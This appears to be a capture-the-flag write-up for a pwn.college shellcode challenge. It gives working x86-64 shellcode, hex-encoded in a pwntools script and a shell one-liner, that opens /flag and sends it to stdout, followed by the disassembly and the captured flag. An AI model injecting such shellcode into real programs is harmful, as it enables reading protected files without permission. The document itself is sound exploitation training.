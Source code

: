 # Binary Exploitation

## Basic Shellcode

### Solve :

**Flag:** `pwn.college{gYHvkn8ypdNIpg7TiOwOu7AnYLc.dlDOywSO5EzNzEzW}`

Running the challenge file i got
```
hacker@binary-exploitation~basic-shellcode:/challenge$ ./binary-exploitation-basic-shellcode
###
### Welcome to ./binary-exploitation-basic-shellcode!
###

This challenge reads in some bytes, modifies them (depending on the specific challenge configuration), and executes them
as code! This is a common exploitation scenario, called `code injection`. Through this series of challenges, you will
practice your shellcode writing skills under various constraints! To ensure that you are shellcoding, rather than doing
other tricks, this will sanitize all environment variables and arguments and close all file descriptors > 2.

In this challenge, shellcode will be copied onto the stack and executed. Since the stack location is randomized on every
execution, your shellcode will need to be *position-independent*.

Allocated 0x1000 bytes for shellcode on the stack at 0x7fff3849c4c0!
Reading 0x1000 bytes from stdin.

```

Based on its ask i made a p7ython snippet
```
from pwn import *

context.arch = 'amd64'

# Shellcode bytes in hex format
shellcode = bytes.fromhex("48c7c002000000488d3d250000004831f64831d20f0548c7c7010000004889c64831d249c7c20010000048c7c0280000000f052f666c616700")

# Connect to the process and send shellcode
p = process('./binary-exploitation-basic-shellcode')
p.send(shellcode)
print(p.recvall().decode())
```
In this, 
- `Open syscall:` opens /flag file with O_RDONLY (syscall #2). The filename location is calculated using RIP-relative addressing which points 37 bytes ahead to where "/flag" string is stored.​
- `Sendfile syscall:` copies file contents from the opened file descriptor to stdout (fd=1) without intermediate buffering and transfers up to 1000 bytes.​
- `bytes.fromhex()` converts the hex string to raw bytes that get piped as stdin to the binary, which executes it as position-independent code on the stack.​

I piped it to the binary and got the output as 
```
hacker@binary-exploitation~basic-shellcode:/challenge$ python3 -c 'import sys; sys.stdout.buffer.write(bytes.fromhex("48c7c002000000488d3d250000004831f64831d20f0548c7c7010000004889c64831d249c7c20010000048c7c0280000000f052f666c616700"))' | ./binary-exploitation-basic-shellcode
###
### Welcome to ./binary-exploitation-basic-shellcode!
###

This challenge reads in some bytes, modifies them (depending on the specific challenge configuration), and executes them
as code! This is a common exploitation scenario, called `code injection`. Through this series of challenges, you will
practice your shellcode writing skills under various constraints! To ensure that you are shellcoding, rather than doing
other tricks, this will sanitize all environment variables and arguments and close all file descriptors > 2.

In this challenge, shellcode will be copied onto the stack and executed. Since the stack location is randomized on every
execution, your shellcode will need to be *position-independent*.

Allocated 0x1000 bytes for shellcode on the stack at 0x7ffe3f7e7ae0!
Reading 0x1000 bytes from stdin.

This challenge is about to execute the following shellcode:

      Address      |                      Bytes                    |          Instructions
------------------------------------------------------------------------------------------
0x00007ffe3f7e7ae0 | 48 c7 c0 02 00 00 00                          | mov rax, 2
0x00007ffe3f7e7ae7 | 48 8d 3d 25 00 00 00                          | lea rdi, [rip + 0x25]
0x00007ffe3f7e7aee | 48 31 f6                                      | xor rsi, rsi
0x00007ffe3f7e7af1 | 48 31 d2                                      | xor rdx, rdx
0x00007ffe3f7e7af4 | 0f 05                                         | syscall 
0x00007ffe3f7e7af6 | 48 c7 c7 01 00 00 00                          | mov rdi, 1
0x00007ffe3f7e7afd | 48 89 c6                                      | mov rsi, rax
0x00007ffe3f7e7b00 | 48 31 d2                                      | xor rdx, rdx
0x00007ffe3f7e7b03 | 49 c7 c2 00 10 00 00                          | mov r10, 0x1000
0x00007ffe3f7e7b0a | 48 c7 c0 28 00 00 00                          | mov rax, 0x28
0x00007ffe3f7e7b11 | 0f 05                                         | syscall 

Executing shellcode!

pwn.college{IRj_8TShwNtkXYsiiaq5NUzP45b.ddTMywSO5EzNzEzW}
Illegal instruction
```
